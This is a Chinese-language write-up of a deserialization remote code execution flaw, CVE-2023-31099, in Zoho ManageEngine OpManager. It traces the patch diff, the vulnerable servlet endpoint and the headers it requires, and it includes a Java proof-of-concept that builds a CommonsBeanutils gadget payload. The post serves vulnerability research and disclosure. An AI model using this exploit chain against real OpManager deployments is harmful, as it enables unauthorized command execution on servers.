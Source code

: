 
Zoho ManageEngine Opmanager 反序列化RCE（CVE-2023-31099）

- - -

# Zoho ManageEngine Opmanager 反序列化RCE（CVE-2023-31099）

整理今年的笔记看到这个洞，搜了一下网上好像没公开细节就发出来水一篇。

## 环境搭建

下载地址： [https://archives3.manageengine.com/opmanager/126323/](https://archives3.manageengine.com/opmanager/126323/)  
下载central和probe，安装central之后复制key，再安装probe并指定central地址

调式：修改wrapper.conf  
wrapper.java.additional.17=-Xdebug  
wrapper.java.additional.18=-Xrunjdwp:transport=dt\_socket,server=y,suspend=n,address=7007

## 漏洞分析

对比diff找到关键点  
[![](assets/1704273669-410f4f5ddce2157b3f08ec061198e90c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165205-8aead9b6-a627-1.png)

OpManagerDistribution.jar!\\com\\me\\opmanager\\extranet\\remote\\communication\\fw\\DataObject#getObjectData中反序列化操作替换成ITOMObjectInputStream，通过设置白名单的方式进行修复。

```plain
public Object getObjectData() {
        if (!this.isDataEncrypted && this.object != null) {
            return this.object;
        } else {
            ByteArrayInputStream bais = null;
            ObjectInputStream ois = null;
            if (this.data != null) {
                try {
                    byte[] decompressedData = null;
                    byte[] decompressedData;
                    if (this.isDataEncrypted) {
                        decompressedData = EEFrameworkUtil.decryptDataObject(this.data);
                        decompressedData = NmsUtil.decompress(decompressedData);
                    } else {
                        decompressedData = NmsUtil.decompress(this.data);
                    }
                    bais = new ByteArrayInputStream(decompressedData);
                    ois = new ObjectInputStream(bais);
                    this.object = ois.readObject();
                } catch (InvalidClassException var14) {
                    this.object = this.getUncheckedUIDData(this.data);
                } catch (Exception var15) {
                    var15.printStackTrace();
                } finally {
                    try {
                        if (ois != null) {
                            ois.close();
                        }
                        if (bais != null) {
                            bais.close();
                        }
                    } catch (Exception var13) {
                        var13.printStackTrace();
                    }
                }
            }
            return this.object;
        }
    }
```

sink点在该类的data字段，如果该字段可控就能实现RCE。  
通过调用该类的setter方法设置this.data字段，然后再调用getObjectData就能触发RCE，但是并未找到。

后面熟悉了下功能后，该类应该是用于probe向central传输消息的，所以应该是传输消息过程反序列化DataObject类之后再调用getObjectData方法，最后触发RCE，根据这个思路找到了可直接发送发序列化数据的source点com.me.opmanager.extranet.remote.communication.fw.fe.RegionalListener，相关代码如下

[![](assets/1704273669-52c904acde6ae45fc0a7ba83a6605ca3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165331-bdf8ebea-a627-1.png)

发现刚好设置了com.me.opmanager.extranet.remote.communication.fw.DataObject的白名单，继续跟进SPPRegionalCommBE的transferDataToNOC方法：

[![](assets/1704273669-db24b1e1ce154155605458adacbb2a5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165439-e6a89ba8-a627-1.png)

最终某个分支会调用dataObject.getObjectData()方法触发反序列化，需要满足以下条件：

1.  NotificationType值为24并且DataPriority值为0
2.  userProps字段种需要存放一个key为regReqID的数据

这些值都来自dataObject类的字段，可控。

poc如下

```plain
public class cve_2023_31099 {
    public static void main(String[] args) throws Exception {
        DataObject obj = new DataObject();
        int notificationType = 24;
        setField(obj,"notificationType",notificationType);
        int dataPriority = 0;
        setField(obj,"dataPriority",dataPriority);
        Properties userProps = new Properties();
        userProps.put("regReqID","qwe");
        setField(obj, "userProps",userProps);
        Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass("CommonsBeanutilsNOCC");
        ObjectPayload payload = (ObjectPayload)payloadClass.newInstance();
        Object object = payload.getObject("cmd /c echo 1 > c:\\1.txt");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(object);
        oos.flush();
        byte[] bytes = baos.toByteArray();
        byte[] datas =  NmsUtil.compress(bytes);
        setField(obj, "data", datas);
        obj.getObjectData();
        FileOutputStream fos = new FileOutputStream("1.ser");
        ObjectOutputStream foos = new ObjectOutputStream(fos);
        foos.writeObject(obj);
    }
}
```

根据web.xml定位到路由为/servlet/com.me.opmanager.extranet.remote.communication.fw.fe.RegionalListener，这里无需opmanager-central的Cookie，但是需要提供三个Header头

1.  authkey: 安装probe时用的key
2.  regionID: probe名称
3.  method: 请求方法，这里是POST

## 漏洞复现

[![](assets/1704273669-2fc977eef4de775513ee8b35a3ee6600.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165613-1e6fac48-a628-1.png)

